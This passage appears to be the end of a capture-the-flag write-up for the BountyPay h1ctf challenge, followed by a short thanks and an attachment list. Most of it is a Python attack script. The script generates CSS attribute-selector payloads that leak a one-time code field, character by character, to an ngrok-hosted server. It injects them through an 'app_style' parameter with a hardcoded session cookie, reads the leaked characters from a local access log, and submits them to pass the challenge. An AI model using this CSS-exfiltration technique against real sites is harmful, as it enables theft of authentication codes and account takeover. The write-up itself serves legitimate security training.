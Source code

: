 ngrok = "https://3369b146412e.ngrok.io/"
url = "https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba"
cookies = {"token":"eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9"}
proxies = {"http":"http://localhost:8080","https":"https://localhost:8080"}
css_url = ngrok+"tosend.css"
data = {"app_style":css_url}
nums = [0,1,2,3,4,5,6,7,8,9]

alphanums = string.ascii_lowercase + string.ascii_uppercase + string.digits + "+/=-_&@*$ "

regex_challenge = 'name="challenge" value="([a-zA-Z0-9]{32})"'
regex_timeout = 'name="challenge_timeout" value="([0-9]+)"'

num = [1,2,3,4,5,6,7]

def generate_css():
    out = ''

    payload4value = '''
    input[name^=code_%i][value="%s"]{
        background: url(%s%s);
    }'''

    for i in num:
	for j in alphanums:
        	out += payload4value %(i,j,ngrok+str(i)+"/",j)
        	out += '\n'
    
    f=open('tosend.css','w')
    f.write(out)
    f.close()

def execute_attack():
	generate_css()
	r = requests.post(url, data=data, verify=True, cookies=cookies)
	sleep(5)
	cmd = 'tail -n7 /private/var/log/apache2/access_log |cut -d" " -f7 |sort >/tmp/hh.txt && for i in `cat /tmp/hh.txt`; do echo $i |cut -d/ -f3;done| awk "{print}" ORS=""'
	code = os.popen(cmd).read()
	
	challenge = re.search(regex_challenge, r.text).group(1)
        timeout = re.search(regex_timeout, r.text).group(1)
	challenge_data={"challenge_timeout":timeout, "challenge":challenge, "challenge_answer":code}
        r = requests.post(url, data=challenge_data, verify=False, cookies=cookies, proxies=proxies)

execute_attack()
```
{F861472}

## Impact

#Finally
I want to thank you for this amazing CTF, and looking forward to CTFs to come!

## Attachments
- Picture1.png
- Picture2.png
- Picture3.png
- Picture4.png
- Picture5.png
- Picture6.png
- Picture7.png
